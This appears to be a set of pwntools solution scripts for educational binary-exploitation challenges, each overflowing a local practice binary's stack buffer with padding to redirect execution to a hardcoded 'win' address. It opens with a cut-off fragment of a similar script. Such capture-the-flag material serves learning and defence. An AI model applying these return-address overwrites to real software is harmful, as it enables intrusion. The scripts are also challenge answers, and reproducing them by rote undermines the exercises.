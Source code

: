```python
pl=b'b'*(0x20+4)+p64(193419296)
sd(pl)
### 
# 
io.interactive()
```
## control hijack (easy)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-control-hijack-w')

def sd(s):
	io.send(s)

### code 
win=0x4022e6
pl=b'b'*(88)+p64(win)
sd(pl)
### 
# 
io.interactive()
```
## control hijack (hard)
```python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-control-hijack')

def sd(s):
	io.send(s)

### code 
win=0x0000000004017FB
pl=b'b'*(0x90+8)+p64(win)
sd(pl)
### 
# 
io.interactive()

```
## tricky control hijack (easy)
```python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')
io=process('./binary-exploitation-control-hijack-2-w')

def sd(s):
	io.send(s)

### code 
win=0x401c3d
pl=b'b'*(136)+p64(win)
sd(pl)
### 
# 
io.interactive()
```